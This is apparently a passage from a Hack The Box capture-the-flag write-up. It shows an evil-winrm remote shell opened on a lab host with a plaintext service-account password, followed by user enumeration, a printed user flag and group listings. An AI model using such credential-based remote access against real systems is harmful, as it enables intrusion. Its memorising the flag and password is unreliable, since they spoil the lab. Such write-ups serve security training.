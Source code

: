 `evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents>
```

![Victim: svc_ldap](https://custom-icon-badges.demolab.com/badge/Victim-svc%5F_ldap-64b5f6?logo=windows11&logoColor=white)

`whoami`:
```
htb\svc_ldap
```

`dir C://Users/svc_ldap/Desktop`:
```
    Directory: C:\Users\svc_ldap\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/6/2024   4:38 PM             34 user.txt ←
```

`type C://Users/svc_ldap/Desktop/user.txt`:
```
2f59756c1292f54ee08eb3908d50b8b8

2f597*************************** ←
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
```